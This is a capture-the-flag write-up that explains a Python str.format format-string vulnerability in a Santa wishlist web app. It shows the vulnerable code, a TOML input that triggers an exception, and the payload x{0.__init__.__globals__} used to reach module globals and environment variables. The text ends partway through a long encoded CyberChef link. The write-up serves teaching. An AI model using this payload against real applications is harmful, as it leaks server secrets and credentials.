

# Format string vulnerability (CWE-134) in $input parameter leading to information disclosure

## DESCRIPTION

In this dojo, the main vulnerability is a [format string vulnerability (CWE-134)](https://cwe.mitre.org/data/definitions/134.html) :

> This vulnerability arises when an application constructs a format string using user-controlled input without proper validation or sanitization. An attacker can exploit this to perform unintended actions, such as reading or writing memory, causing crashes, or even achieving code execution, depending on the context and language.

Here, it can be used to retrieve the flag inside an enviroment variable.

## EXPLOITATION

The code in this dojo is used to create a wishlist for santa. It take a # TOML list as input, check if the present requested and the price, and create the list.

### 1. Code review

The application is a python webapp. Let's begin by the `import` part of the code to see the technologies and lib used :
```python
import os, re, tomllib, datetime
from urllib.parse import unquote
from dataclasses import dataclass
from jinja2 import Environment, FileSystemLoader
template = Environment(
    autoescape=True,
    loader=FileSystemLoader('/tmp/templates'),
).get_template('index.tpl')
os.chdir("/tmp")
```

We can see the templating engine used here is `jinja2`. One interesting thing to note is that the `autoescape` argument is set to true, so the engine would sanitize any input to avoid XSS.

Now let's look at the rest of the code where the logic happens :
```python
class Factory:
    def __init__(self):
        self.gifts = {
            "hoodie": 1337,
            "socks": 0,
            "candy": 0,
        }

    def getGift(self, item) -> str:
        return str(self.gifts[item])

    def buyGift(self, givenWishlist) -> str|ValueError:
        if givenWishlist == "":
            return ""
        try:
            wishlist = tomllib.loads(givenWishlist).get('wishlist')

            if "price" in wishlist.keys() and int(wishlist["price"]) != 0:
                raise self.makeError("The given price: {price}$ is to much, we only offer free gifts at the moment!", price=wishlist["price"])

            if "item" in wishlist.keys() and wishlist["item"] in self.gifts.keys():
                return "Your have selected: {item}. The gift is on its way!".format(item=wishlist["item"])

        except Exception as e:
            return self.makeError(str(e))
      
        return self.makeError("The gift was lost among all the Christmas presents!")

    def makeError(self, message, **kwargs) -> ValueError:
        return ValueError(message.format(self, **kwargs))

# Run the main code
factory = Factory()
message = factory.buyGift(unquote("<user-input>"))

if type(message) == str:
    print( template.render(message=message) )
else:
    print( template.render(error=message) )
```

We can see 2 main things : 
1. The `Factory` class, used to parse the input wishlist and generate the final wishlist
2. The server will display an error message instead of a wishlist in case something goes wrong (last line)

When the 

Let's analyze the `Factory` class. We can see the user input is sent to the `buyGift()` method :
```python
def buyGift(self, givenWishlist) -> str|ValueError:
	if givenWishlist == "":
		return ""
	try:
		wishlist = tomllib.loads(givenWishlist).get('wishlist')
	
		if "price" in wishlist.keys() and int(wishlist["price"]) != 0:
			raise self.makeError("The given price: {price}$ is to much, we only offer free gifts at the moment!", price=wishlist["price"])
	
		if "item" in wishlist.keys() and wishlist["item"] in self.gifts.keys():
			return "Your have selected: {item}. The gift is on its way!".format(item=wishlist["item"])
	except Exception as e:
		return self.makeError(str(e))
		  
	return self.makeError("The gift was lost among all the Christmas presents!")
```

This method tries to :
- decode the input as a [TOML](https://toml.io/en/) input and convert it to a dictionary object
- check if `price` is set and with a value of 0
- check if `item` is set and with a value inside of `self.gifts` (declared in `__init__()`)

This where it get interesting : we can see that the code use a custom function `self.makeError()` to inform the user of any problem : price too high, no gift found, and python exception :
```python
except Exception as e:
	return self.makeError(str(e))
```

if we take a look at this function :
```python
def makeError(self, message, **kwargs) -> ValueError:
	return ValueError(message.format(self, **kwargs))
```

We can see it take in input the `message` (the error message), and call the function `format()` with argument `self` and `**kwargs`.

If you don't know it, the `format()` function is used for string formating by passing variables inside markers inside the input string :


But here, the `self` object is also passed as argument of `format()`.
Meaning we could theoretically dump the content of `self`.
This is important because in Python, `self` is a reference to the current instance of a class. It is used to access instance attributes and methods within a class. 

Theoretically, it could be used to search in the local and global variables, imported method and librairies to dump important information from the server.

So the path we need to take to dump environments variables is the following :
- Find a way to create a valid TOML input for the server to accept it.
- Create an exception to call `self.makeError()`
- Find a way to exploit the format string vulnerability to dump the environment.

### 2. Creating a valid TOML input

The first step is quite easy. We can see the code tries to load a `wishlist` table in TOML. By referring to this guide : [https://quickref.me/toml.html](https://quickref.me/toml.html), we can create a table with entry `price` and `item` :
```toml
[wishlist]
price = 0
item = 'hoodie'
```

Let's check if it work :


And it work, now to find a way to create an error.

### 3. Triggering a python exception

Among the different lines where `self.makeError()` is called, we wil target the following :
```python
except Exception as e:
	return self.makeError(str(e))
```
Because it's the only one where we the message is not custom but just a python exception (here stored inside `e`). If the exception reflect our input, then we can inject string-format markers (`{}`) to exploit the vulnerability.

After some testing, if found the following, easy to use exception :


if we provide a non-digit price, the `int()` function used will raise an exception with the content of the variable. This is exactly what we need :



Now, remember this line :
```python
return ValueError(message.format(self, **kwargs))
```
We can see the `self` object is in index 0 of the arguments. We can include it in the string by using this index with `{0}` :
```python
"This is the self object : {0}".format(self, **kwargs)
```


And it work, we can see the signature of the `self` object in the error message. Now to find a way to dump the environment.

### 4. Dumping the environment

In the payload `This is the self object : {0}`, `0` represent the `self` object, meaning we can call different attribute, like `self.gift` :


The easiest way to dump the environment is to access the `os` library.
After looking at multiples SSTI payloads, if found a way to see all the available libraries in the context of the application :
```
x{0.__init__.__globals__}
```


if we decode this using [CyberChef](https://cyberchef.org/#recipe=From_HTML_Entity()&input=JiMzOTtfX2J1aWx0aW5zX18mIzM5OzogeyYjMzk7X19uYW1lX18mIzM5OzogJiMzOTtidWlsdGlucyYjMzk7LCAmIzM5O19fZG9jX18mIzM5OzogJiMzNDtCdWlsdC1pbiBmdW5jdGlvbnMsIHR5cGVzLCBleGNlcHRpb25zLCBhbmQgb3RoZXIgb2JqZWN0cy5cblxuVGhpcyBtb2R1bGUgcHJvdmlkZXMgZGlyZWN0IGFjY2VzcyB0byBhbGwgJiMzOTtidWlsdC1pbiYjMzk7XG5pZGVudGlmaWVycyBvZiBQeXRob247IGZvciBleGFtcGxlLCBidWlsdGlucy5sZW4gaXNcbnRoZSBmdWxsIG5hbWUgZm9yIHRoZSBidWlsdC1pbiBmdW5jdGlvbiBsZW4oKS5cblxuVGhpcyBtb2R1bGUgaXMgbm90IG5vcm1hbGx5IGFjY2Vzc2VkIGV4cGxpY2l0bHkgYnkgbW9zdFxuYXBwbGljYXRpb25zLCBidXQgY2FuIGJlIHVzZWZ1bCBpbiBtb2R1bGVzIHRoYXQgcHJvdmlkZVxub2JqZWN0cyB3aXRoIHRoZSBzYW1lIG5hbWUgYXMgYSBidWlsdC1pbiB2YWx1ZSwgYnV0IGluXG53aGljaCB0aGUgYnVpbHQtaW4gb2YgdGhhdCBuYW1lIGlzIGFsc28gbmVlZGVkLiYjMzQ7LCAmIzM5O19fcGFja2FnZV9fJiMzOTs6ICYjMzk7JiMzOTssICYjMzk7X19sb2FkZXJfXyYjMzk7OiAmbHQ7Y2xhc3MgJiMzOTtfZnJvemVuX2ltcG9ydGxpYi5CdWlsdGluSW1wb3J0ZXImIzM5OyZndDssICYjMzk7X19zcGVjX18mIzM5OzogTW9kdWxlU3BlYyhuYW1lPSYjMzk7YnVpbHRpbnMmIzM5OywgbG9hZGVyPSZsdDtjbGFzcyAmIzM5O19mcm96ZW5faW1wb3J0bGliLkJ1aWx0aW5JbXBvcnRlciYjMzk7Jmd0Oywgb3JpZ2luPSYjMzk7YnVpbHQtaW4mIzM5OyksICYjMzk7X19idWlsZF9jbGFzc19fJiMzOTs6ICZsdDtidWlsdC1pbiBmdW5jdGlvbiBfX2J1aWxkX2NsYXNzX18mZ3Q7LCAmIzM5O19faW1wb3J0X18mIzM5OzogJmx0O2J1aWx0LWluIGZ1bmN0aW9uIF9faW1wb3J0X18mZ3Q7LCAmIzM5O2FicyYjMzk7OiAmbHQ7YnVpbHQtaW4gZnVuY3Rpb24gYWJzJmd0OywgJiMzOTthbGwmIzM5OzogJmx0O2J1aWx0LWluIGZ1bmN0aW9uIGFsbCZndDssICYjMzk7YW55JiMzOTs6ICZsdDtidWlsdC1pbiBmdW5jdGlvbiBhbnkmZ3Q7LCAmIzM5O2FzY2lpJiMzOTs6ICZsdDtidWlsdC1pbiBmdW5jdGlvbiBhc2NpaSZndDssICYjMzk7YmluJiMzOTs6ICZsdDtidWlsdC1pbiBmdW5jdGlvbiBiaW4mZ3Q7LCAmIzM5O2JyZWFrcG9pbnQmIzM5OzogJmx0O2J1aWx0LWluIGZ1bmN0aW9uIGJyZWFrcG9pbnQmZ3Q7LCAmIzM5O2NhbGxhYmxlJiMzOTs6ICZsdDtidWlsdC1pbiBmdW5jdGlvbiBjYWxsYWJsZSZndDssICYjMzk7Y2hyJiMzOTs6ICZsdDtidWlsdC1pbiBmdW5jdGlvbiBjaHImZ3Q7LCAmIzM5O2NvbXBpbGUmIzM5OzogJmx0O2J1aWx0LWluIGZ1bmN0aW9uIGNvbXBpbGUmZ3Q7LCAmIzM5O2RlbGF0dHImIzM5OzogJmx0O2J1aWx0LWluIGZ1bmN0aW9uIGRlbGF0dHImZ3Q7LCAmIzM5O2RpciYjMzk7OiAmbHQ7YnVpbHQtaW4gZnVuY3Rpb24gZGlyJmd0OywgJiMzOTtkaXZtb2QmIzM5OzogJmx0O2J1aWx0LWluIGZ1bmN0aW9uIGRpdm1vZCZndDssICYjMzk7ZXZhbCYjMzk7OiAmbHQ7YnVpbHQtaW4gZnVuY3Rpb24gZXZhbCZndDssICYjMzk7ZXhlYyYjMzk7OiAmbHQ7YnVpbHQtaW4gZnVuY3Rpb24gZXhlYyZndDssICYjMzk7Zm9ybWF0JiMzOTs6ICZsdDtidWlsdC1pbiBmdW5jdGlvbiBmb3JtYXQmZ3Q7LCAmIzM5O2dldGF0dHImIzM5OzogJmx0O2J1aWx0LWluIGZ1bmN0aW9uIGdldGF0dHImZ3Q7LCAmIzM5O2dsb2JhbHMmIzM5OzogJmx0O2J1aWx0LWluIGZ1bmN0aW9uIGdsb2JhbHMmZ3Q7LCAmIzM5O2hhc2F0dHImIzM5OzogJmx0O2J1aWx0LWluIGZ1bmN0aW9uIGhhc2F0dHImZ3Q7LCAmIzM5O2hhc2gmIzM5OzogJmx0O2J1aWx0LWluIGZ1bmN0aW9uIGhhc2gmZ3Q7LCAmIzM5O2hleCYjMzk7OiAmbHQ7YnVpbHQtaW4gZnVuY3Rpb24gaGV4Jmd0OywgJiMzOTtpZCYjMzk7OiAmbHQ7YnVpbHQtaW4gZnVuY3Rpb24gaWQmZ3Q7LCAmIzM5O2lucHV0JiMzOTs6ICZsdDtidWlsdC1pbiBmdW5jdGlvbiBpbnB1dCZndDssICYjMzk7aXNpbnN0YW5jZSYjMzk7OiAmbHQ7YnVpbHQtaW4gZnVuY3Rpb24gaXNpbnN0YW5jZSZndDssICYjMzk7aXNzdWJjbGFzcyYjMzk7OiAmbHQ7YnVpbHQtaW4gZnVuY3Rpb24gaXNzdWJjbGFzcyZndDssICYjMzk7aXRlciYjMzk7OiAmbHQ7YnVpbHQtaW4gZnVuY3Rpb24gaXRlciZndDssICYjMzk7YWl0ZXImIzM5OzogJmx0O2J1aWx0LWluIGZ1bmN0aW9uIGFpdGVyJmd0OywgJiMzOTtsZW4mIzM5OzogJmx0O2J1aWx0LWluIGZ1bmN0aW9uIGxlbiZndDssICYjMzk7bG9jYWxzJiMzOTs6ICZsdDtidWlsdC1pbiBmdW5jdGlvbiBsb2NhbHMmZ3Q7LCAmIzM5O21heCYjMzk7OiAmbHQ7YnVpbHQtaW4gZnVuY3Rpb24gbWF4Jmd0OywgJiMzOTttaW4mIzM5OzogJmx0O2J1aWx0LWluIGZ1bmN0aW9uIG1pbiZndDssICYjMzk7bmV4dCYjMzk7OiAmbHQ7YnVpbHQtaW4gZnVuY3Rpb24gbmV4dCZndDssICYjMzk7YW5leHQmIzM5OzogJmx0O2J1aWx0LWluIGZ1bmN0aW9uIGFuZXh0Jmd0OywgJiMzOTtvY3QmIzM5OzogJmx0O2J1aWx0LWluIGZ1bmN0aW9uIG9jdCZndDssICYjMzk7b3JkJiMzOTs6ICZsdDtidWlsdC1pbiBmdW5jdGlvbiBvcmQmZ3Q7LCAmIzM5O3BvdyYjMzk7OiAmbHQ7YnVpbHQtaW4gZnVuY3Rpb24gcG93Jmd0OywgJiMzOTtwcmludCYjMzk7OiAmbHQ7YnVpbHQtaW4gZnVuY3Rpb24gcHJpbnQmZ3Q7LCAmIzM5O3JlcHImIzM5OzogJmx0O2J1aWx0LWluIGZ1bmN0aW9uIHJlcHImZ3Q7LCAmIzM5O3JvdW5kJiMzOTs6ICZsdDtidWlsdC1pbiBmdW5jdGlvbiByb3VuZCZndDssICYjMzk7c2V0YXR0ciYjMzk7OiAmbHQ7YnVpbHQtaW4gZnVuY3Rpb24gc2V0YXR0ciZndDssICYjMzk7c29ydGVkJiMzOTs6ICZsdDtidWlsdC1pbiBmdW5jdGlvbiBzb3J0ZWQmZ3Q7LCAmIzM5O3N1bSYjMzk7OiAmbHQ7YnVpbHQtaW4gZnVuY3Rpb24gc3VtJmd0OywgJiMzOTt2YXJzJiMzOTs6ICZsdDtidWlsdC1pbiBmdW5jdGlvbiB2YXJzJmd0OywgJiMzOTtOb25lJiMzOTs6IE5vbmUsICYjMzk7RWxsaXBzaXMmIzM5OzogRWxsaXBzaXMsICYjMzk7Tm90SW1wbGVtZW50ZWQmIzM5OzogTm90SW1wbGVtZW50ZWQsICYjMzk7RmFsc2UmIzM5OzogRmFsc2UsICYjMzk7VHJ1ZSYjMzk7OiBUcnVlLCAmIzM5O2Jvb2wmIzM5OzogJmx0O2NsYXNzICYjMzk7Ym9vbCYjMzk7Jmd0OywgJiMzOTttZW1vcnl2aWV3JiMzOTs6ICZsdDtjbGFzcyAmIzM5O21lbW9yeXZpZXcmIzM5OyZndDssICYjMzk7Ynl0ZWFycmF5JiMzOTs6ICZsdDtjbGFzcyAmIzM5O2J5dGVhcnJheSYjMzk7Jmd0OywgJiMzOTtieXRlcyYjMzk7OiAmbHQ7Y2xhc3MgJiMzOTtieXRlcyYjMzk7Jmd0OywgJiMzOTtjbGFzc21ldGhvZCYjMzk7OiAmbHQ7Y2xhc3MgJiMzOTtjbGFzc21ldGhvZCYjMzk7Jmd0OywgJiMzOTtjb21wbGV4JiMzOTs6ICZsdDtjbGFzcyAmIzM5O2NvbXBsZXgmIzM5OyZndDssICYjMzk7ZGljdCYjMzk7OiAmbHQ7Y2xhc3MgJiMzOTtkaWN0JiMzOTsmZ3Q7LCAmIzM5O2VudW1lcmF0ZSYjMzk7OiAmbHQ7Y2xhc3MgJiMzOTtlbnVtZXJhdGUmIzM5OyZndDssICYjMzk7ZmlsdGVyJiMzOTs6ICZsdDtjbGFzcyAmIzM5O2ZpbHRlciYjMzk7Jmd0OywgJiMzOTtmbG9hdCYjMzk7OiAmbHQ7Y2xhc3MgJiMzOTtmbG9hdCYjMzk7Jmd0OywgJiMzOTtmcm96ZW5zZXQmIzM5OzogJmx0O2NsYXNzICYjMzk7ZnJvemVuc2V0JiMzOTsmZ3Q7LCAmIzM5O3Byb3BlcnR5JiMzOTs6ICZsdDtjbGFzcyAmIzM5O3Byb3BlcnR5JiMzOTsmZ3Q7LCAmIzM5O2ludCYjMzk7OiAmbHQ7Y2xhc3MgJiMzOTtpbnQmIzM5OyZndDssICYjMzk7bGlzdCYjMzk7OiAmbHQ7Y2xhc3MgJiMzOTtsaXN0JiMzOTsmZ3Q7LCAmIzM5O21hcCYjMzk7OiAmbHQ7Y2xhc3MgJiMzOTttYXAmIzM5OyZndDssICYjMzk7b2JqZWN0JiMzOTs6ICZsdDtjbGFzcyAmIzM5O29iamVjdCYjMzk7Jmd0OywgJiMzOTtyYW5nZSYjMzk7OiAmbHQ7Y2xhc3MgJiMzOTtyYW5nZSYjMzk7Jmd0OywgJiMzOTtyZXZlcnNlZCYjMzk7OiAmbHQ7Y2xhc3MgJiMzOTtyZXZlcnNlZCYjMzk7Jmd0OywgJiMzOTtzZXQmIzM5OzogJmx0O2NsYXNzICYjMzk7c2V0JiMzOTsmZ3Q7LCAmIzM5O3NsaWNlJiMzOTs6ICZsdDtjbGFzcyAmIzM5O3NsaWNlJiMzOTsmZ3Q7LCAmIzM5O3N0YXRpY21ldGhvZCYjMzk7OiAmbHQ7Y2xhc3MgJiMzOTtzdGF0aWNtZXRob2QmIzM5OyZndDssICYjMzk7c3RyJiMzOTs6ICZsdDtjbGFzcyAmIzM5O3N0ciYjMzk7Jmd0OywgJiMzOTtzdXBlciYjMzk7OiAmbHQ7Y2xhc3MgJiMzOTtzdXBlciYjMzk7Jmd0OywgJiMzOTt0dXBsZSYjMzk7OiAmbHQ7Y2xhc3MgJiMzOTt0dXBsZSYjMzk7Jmd0OywgJiMzOTt0eXBlJiMzOTs6ICZsdDtjbGFzcyAmIzM5O3R5cGUmIzM5OyZndDssICYjMzk7emlwJiMzOTs6ICZsdDtjbGFzcyAmIzM5O3ppcCYjMzk7Jmd0OywgJiMzOTtfX2RlYnVnX18mIzM5OzogVHJ1ZSwgJiMzOTtCYXNlRXhjZXB0aW9uJiMzOTs6ICZsdDtjbGFzcyAmIzM5O0Jhc2VFeGNlcHRpb24mIzM5OyZndDssICYjMzk7QmFzZUV4Y2VwdGlvbkdyb3VwJiMzOTs6ICZsdDtjbGFzcyAmIzM5O0Jhc2VFeGNlcHRpb25Hcm91cCYjMzk7Jmd0OywgJiMzOTtFeGNlcHRpb24mIzM5OzogJmx0O2NsYXNzICYjMzk7RXhjZXB0aW9uJiMzOTsmZ3Q7LCAmIzM5O0dlbmVyYXRvckV4aXQmIzM5OzogJmx0O2NsYXNzICYjMzk7R2VuZXJhdG9yRXhpdCYjMzk7Jmd0OywgJiMzOTtLZXlib2FyZEludGVycnVwdCYjMzk7OiAmbHQ7Y2xhc3MgJiMzOTtLZXlib2FyZEludGVycnVwdCYjMzk7Jmd0OywgJiMzOTtTeXN0ZW1FeGl0JiMzOTs6ICZsdDtjbGFzcyAmIzM5O1N5c3RlbUV4aXQmIzM5OyZndDssICYjMzk7QXJpdGhtZXRpY0Vycm9yJiMzOTs6ICZsdDtjbGFzcyAmIzM5O0FyaXRobWV0aWNFcnJvciYjMzk7Jmd0OywgJiMzOTtBc3NlcnRpb25FcnJvciYjMzk7OiAmbHQ7Y2xhc3MgJiMzOTtBc3NlcnRpb25FcnJvciYjMzk7Jmd0OywgJiMzOTtBdHRyaWJ1dGVFcnJvciYjMzk7OiAmbHQ7Y2xhc3MgJiMzOTtBdHRyaWJ1dGVFcnJvciYjMzk7Jmd0OywgJiMzOTtCdWZmZXJFcnJvciYjMzk7OiAmbHQ7Y2xhc3MgJiMzOTtCdWZmZXJFcnJvciYjMzk7Jmd0OywgJiMzOTtFT0ZFcnJvciYjMzk7OiAmbHQ7Y2xhc3MgJiMzOTtFT0ZFcnJvciYjMzk7Jmd0OywgJiMzOTtJbXBvcnRFcnJvciYjMzk7OiAmbHQ7Y2xhc3MgJiMzOTtJbXBvcnRFcnJvciYjMzk7Jmd0OywgJiMzOTtMb29rdXBFcnJvciYjMzk7OiAmbHQ7Y2xhc3MgJiMzOTtMb29rdXBFcnJvciYjMzk7Jmd0OywgJiMzOTtNZW1vcnlFcnJvciYjMzk7OiAmbHQ7Y2xhc3MgJiMzOTtNZW1vcnlFcnJvciYjMzk7Jmd0OywgJiMzOTtOYW1lRXJyb3ImIzM5OzogJmx0O2NsYXNzICYjMzk7TmFtZUVycm9yJiMzOTsmZ3Q7LCAmIzM5O09TRXJyb3ImIzM5OzogJmx0O2NsYXNzICYjMzk7T1NFcnJvciYjMzk7Jmd0OywgJiMzOTtSZWZlcmVuY2VFcnJvciYjMzk7OiAmbHQ7Y2xhc3MgJiMzOTtSZWZlcmVuY2VFcnJvciYjMzk7Jmd0OywgJiMzOTtSdW50aW1lRXJyb3ImIzM5OzogJmx0O2NsYXNzICYjMzk7UnVudGltZUVycm9yJiMzOTsmZ3Q7LCAmIzM5O1N0b3BBc3luY0l0ZXJhdGlvbiYjMzk7OiAmbHQ7Y2xhc3MgJiMzOTtTdG9wQXN5bmNJdGVyYXRpb24mIzM5OyZndDssICYjMzk7U3RvcEl0ZXJhdGlvbiYjMzk7OiAmbHQ7Y2xhc3MgJiMzOTtTdG9wSXRlcmF0aW9uJiMzOTsmZ3Q7LCAmIzM5O1N5bnRheEVycm9yJiMzOTs6ICZsdDtjbGFzcyAmIzM5O1N5bnRheEVycm9yJiMzOTsmZ3Q7LCAmIzM5O1N5c3RlbUVycm9yJiMzOTs6ICZsdDtjbGFzcyAmIzM5O1N5c3RlbUVycm9yJiMzOTsmZ3Q7LCAmIzM5O1R5cGVFcnJvciYjMzk7OiAmbHQ7Y2xhc3MgJiMzOTtUeXBlRXJyb3ImIzM5OyZndDssICYjMzk7VmFsdWVFcnJvciYjMzk7OiAmbHQ7Y2xhc3MgJiMzOTtWYWx1ZUVycm9yJiMzOTsmZ3Q7LCAmIzM5O1dhcm5pbmcmIzM5OzogJmx0O2NsYXNzICYjMzk7V2FybmluZyYjMzk7Jmd0OywgJiMzOTtGbG9hdGluZ1BvaW50RXJyb3ImIzM5OzogJmx0O2NsYXNzICYjMzk7RmxvYXRpbmdQb2ludEVycm9yJiMzOTsmZ3Q7LCAmIzM5O092ZXJmbG93RXJyb3ImIzM5OzogJmx0O2NsYXNzICYjMzk7T3ZlcmZsb3dFcnJvciYjMzk7Jmd0OywgJiMzOTtaZXJvRGl2aXNpb25FcnJvciYjMzk7OiAmbHQ7Y2xhc3MgJiMzOTtaZXJvRGl2aXNpb25FcnJvciYjMzk7Jmd0OywgJiMzOTtCeXRlc1dhcm5pbmcmIzM5OzogJmx0O2NsYXNzICYjMzk7Qnl0ZXNXYXJuaW5nJiMzOTsmZ3Q7LCAmIzM5O0RlcHJlY2F0aW9uV2FybmluZyYjMzk7OiAmbHQ7Y2xhc3MgJiMzOTtEZXByZWNhdGlvbldhcm5pbmcmIzM5OyZndDssICYjMzk7RW5jb2RpbmdXYXJuaW5nJiMzOTs6ICZsdDtjbGFzcyAmIzM5O0VuY29kaW5nV2FybmluZyYjMzk7Jmd0OywgJiMzOTtGdXR1cmVXYXJuaW5nJiMzOTs6ICZsdDtjbGFzcyAmIzM5O0Z1dHVyZVdhcm5pbmcmIzM5OyZndDssICYjMzk7SW1wb3J0V2FybmluZyYjMzk7OiAmbHQ7Y2xhc3MgJiMzOTtJbXBvcnRXYXJuaW5nJiMzOTsmZ3Q7LCAmIzM5O1BlbmRpbmdEZXByZWNhdGlvbldhcm5pbmcmIzM5OzogJmx0O2NsYXNzICYjMzk7UGVuZGluZ0RlcHJlY2F0aW9uV2FybmluZyYjMzk7Jmd0OywgJiMzOTtSZXNvdXJjZVdhcm5pbmcmIzM5OzogJmx0O2NsYXNzICYjMzk7UmVzb3VyY2VXYXJuaW5nJiMzOTsmZ3Q7LCAmIzM5O1J1bnRpbWVXYXJuaW5nJiMzOTs6ICZsdDtjbGFzcyAmIzM5O1J1bnRpbWVXYXJuaW5nJiMzOTsmZ3Q7LCAmIzM5O1N5bnRheFdhcm5pbmcmIzM5OzogJmx0O2NsYXNzICYjMzk7U3ludGF4V2FybmluZyYjMzk7Jmd0OywgJiMzOTtVbmljb2RlV2FybmluZyYjMzk7OiAmbHQ7Y2xhc3MgJiMzOTtVbmljb2RlV2FybmluZyYjMzk7Jmd0OywgJiMzOTtVc2VyV2FybmluZyYjMzk7OiAmbHQ7Y2xhc3MgJiMzOTtVc2VyV2FybmluZyYjMzk7Jmd0OywgJiMzOTtCbG9ja2luZ0lPRXJyb3ImIzM5OzogJmx0O2NsYXNzICYjMzk7QmxvY2tpbmdJT0Vycm9yJiMzOTsmZ3Q7LCAmIzM5O0NoaWxkUHJvY2Vzc0Vycm9yJiMzOTs6ICZsdDtjbGFzcyAmIzM5O0NoaWxkUHJvY2Vzc0Vycm9yJiMzOTsmZ3Q7LCAmIzM5O0Nvbm5lY3Rpb25FcnJvciYjMzk7OiAmbHQ7Y2xhc3MgJiMzOTtDb25uZWN0aW9uRXJyb3ImIzM5OyZndDssICYjMzk7RmlsZUV4aXN0c0Vycm9yJiMzOTs6ICZsdDtjbGFzcyAmIzM5O0ZpbGVFeGlzdHNFcnJvciYjMzk7Jmd0OywgJiMzOTtGaWxlTm90Rm91bmRFcnJvciYjMzk7OiAmbHQ7Y2xhc3MgJiMzOTtGaWxlTm90Rm91bmRFcnJvciYjMzk7Jmd0OywgJiMzOTtJbnRlcnJ1cHRlZEVycm9yJiMzOTs6ICZsdDtjbGFzcyAmIzM5O0ludGVycnVwdGVkRXJyb3ImIzM5OyZndDssICYjMzk7SXNBRGlyZWN0b3J5RXJyb3ImIzM5OzogJmx0O2NsYXNzICYjMzk7SXNBRGlyZWN0b3J5RXJyb3ImIzM5OyZndDssICYjMzk7Tm90QURpcmVjdG9yeUVycm9yJiMzOTs6ICZsdDtjbGFzcyAmIzM5O05vdEFEaXJlY3RvcnlFcnJvciYjMzk7Jmd0OywgJiMzOTtQZXJtaXNzaW9uRXJyb3ImIzM5OzogJmx0O2NsYXNzICYjMzk7UGVybWlzc2lvbkVycm9yJiMzOTsmZ3Q7LCAmIzM5O1Byb2Nlc3NMb29rdXBFcnJvciYjMzk7OiAmbHQ7Y2xhc3MgJiMzOTtQcm9jZXNzTG9va3VwRXJyb3ImIzM5OyZndDssICYjMzk7VGltZW91dEVycm9yJiMzOTs6ICZsdDtjbGFzcyAmIzM5O1RpbWVvdXRFcnJvciYjMzk7Jmd0OywgJiMzOTtJbmRlbnRhdGlvbkVycm9yJiMzOTs6ICZsdDtjbGFzcyAmIzM5O0luZGVudGF0aW9uRXJyb3ImIzM5OyZndDssICYjMzk7SW5kZXhFcnJvciYjMzk7OiAmbHQ7Y2xhc3MgJiMzOTtJbmRleEVycm9yJiMzOTsmZ3Q7LCAmIzM5O0tleUVycm9yJiMzOTs6ICZsdDtjbGFzcyAmIzM5O0tleUVycm9yJiMzOTsmZ3Q7LCAmIzM5O01vZHVsZU5vdEZvdW5kRXJyb3ImIzM5OzogJmx0O2NsYXNzICYjMzk7TW9kdWxlTm90Rm91bmRFcnJvciYjMzk7Jmd0OywgJiMzOTtOb3RJbXBsZW1lbnRlZEVycm9yJiMzOTs6ICZsdDtjbGFzcyAmIzM5O05vdEltcGxlbWVudGVkRXJyb3ImIzM5OyZndDssICYjMzk7UmVjdXJzaW9uRXJyb3ImIzM5OzogJmx0O2NsYXNzICYjMzk7UmVjdXJzaW9uRXJyb3ImIzM5OyZndDssICYjMzk7VW5ib3VuZExvY2FsRXJyb3ImIzM5OzogJmx0O2NsYXNzICYjMzk7VW5ib3VuZExvY2FsRXJyb3ImIzM5OyZndDssICYjMzk7VW5pY29kZUVycm9yJiMzOTs6ICZsdDtjbGFzcyAmIzM5O1VuaWNvZGVFcnJvciYjMzk7Jmd0OywgJiMzOTtCcm9rZW5QaXBlRXJyb3ImIzM5OzogJmx0O2NsYXNzICYjMzk7QnJva2VuUGlwZUVycm9yJiMzOTsmZ3Q7LCAmIzM5O0Nvbm5lY3Rpb25BYm9ydGVkRXJyb3ImIzM5OzogJmx0O2NsYXNzICYjMzk7Q29ubmVjdGlvbkFib3J0ZWRFcnJvciYjMzk7Jmd0OywgJiMzOTtDb25uZWN0aW9uUmVmdXNlZEVycm9yJiMzOTs6ICZsdDtjbGFzcyAmIzM5O0Nvbm5lY3Rpb25SZWZ1c2VkRXJyb3ImIzM5OyZndDssICYjMzk7Q29ubmVjdGlvblJlc2V0RXJyb3ImIzM5OzogJmx0O2NsYXNzICYjMzk7Q29ubmVjdGlvblJlc2V0RXJyb3ImIzM5OyZndDssICYjMzk7VGFiRXJyb3ImIzM5OzogJmx0O2NsYXNzICYjMzk7VGFiRXJyb3ImIzM5OyZndDssICYjMzk7VW5pY29kZURlY29kZUVycm9yJiMzOTs6ICZsdDtjbGFzcyAmIzM5O1VuaWNvZGVEZWNvZGVFcnJvciYjMzk7Jmd0OywgJiMzOTtVbmljb2RlRW5jb2RlRXJyb3ImIzM5OzogJmx0O2NsYXNzICYjMzk7VW5pY29kZUVuY29kZUVycm9yJiMzOTsmZ3Q7LCAmIzM5O1VuaWNvZGVUcmFuc2xhdGVFcnJvciYjMzk7OiAmbHQ7Y2xhc3MgJiMzOTtVbmljb2RlVHJhbnNsYXRlRXJyb3ImIzM5OyZndDssICYjMzk7RXhjZXB0aW9uR3JvdXAmIzM5OzogJmx0O2NsYXNzICYjMzk7RXhjZXB0aW9uR3JvdXAmIzM5OyZndDssICYjMzk7RW52aXJvbm1lbnRFcnJvciYjMzk7OiAmbHQ7Y2xhc3MgJiMzOTtPU0Vycm9yJiMzOTsmZ3Q7LCAmIzM5O0lPRXJyb3ImIzM5OzogJmx0O2NsYXNzICYjMzk7T1NFcnJvciYjMzk7Jmd0OywgJiMzOTtvcGVuJiMzOTs6ICZsdDtidWlsdC1pbiBmdW5jdGlvbiBvcGVuJmd0OywgJiMzOTtxdWl0JiMzOTs6IFVzZSBxdWl0KCkgb3IgQ3RybC1EIChpLmUuIEVPRikgdG8gZXhpdCwgJiMzOTtleGl0JiMzOTs6IFVzZSBleGl0KCkgb3IgQ3RybC1EIChpLmUuIEVPRikgdG8g